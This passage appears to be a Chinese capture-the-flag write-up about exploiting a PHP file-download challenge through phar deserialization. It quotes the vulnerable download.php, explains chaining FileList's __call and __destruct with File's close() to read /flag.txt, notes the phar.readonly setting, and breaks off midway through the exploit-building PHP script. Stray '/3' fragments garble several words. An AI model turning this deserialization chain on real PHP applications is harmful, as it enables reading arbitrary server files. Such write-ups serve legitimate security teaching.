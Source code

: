 注意到File类中的`close方法执行时会获得内容`/3，如果能触发该方法，就有机会得到flag。找找其他php没有用/3到这个方法。

```php
include "class.php";
ini_set("open_basedir", getcwd() . ":/etc:/tmp");

chdir($_SESSION['sandbox']);
$file = new File();
$filename = (string) $_POST['filename'];
if (strlen($filename) < 40 && $file->open($filename) && stristr($filename, "flag") === false) {
    Header("Content-type: application/octet-stream");
    Header("Content-Disposition: attachment; filename=" . basename($filename));
    echo $file->close();
} else {
    echo "File not exist";
}
```

在 `download.php`  `d/3elete.php` 发现利/3用到了。


**利用思考**


如果调用FileList类里的__call方法，让 `$this->results` 这个数组等于` close()`，再用`__destruct`魔术方法调用 `close()`。那么 将 File 类里` close（）`方法赋值给 `$this->results`数组，要让File类里的`filename = flag.txt` 再通过 `__destruct`魔术方法 调用` close 方法`。就可以获取到`flag.`




修改本地环境的` PHP.ini `，打开/3`[Phar]` 如下：

![](img/2/4.png)

```
设置：phar.readonly = Off。
```


> PS:一开始我用的是PHP7无法生成，后来改成PHP5便可以了,记得把前面的 ；去掉

```php
<?php
class User {
    public $db;
}
class File {
    public $filename;
}
class FileList {
    private $files;
    private $results;
    private $funcs;

    public function __construct() {
        $file = new File();
        $file->filename = '/flag.txt';
        $this->files = array($file);
        $this->results = array();
```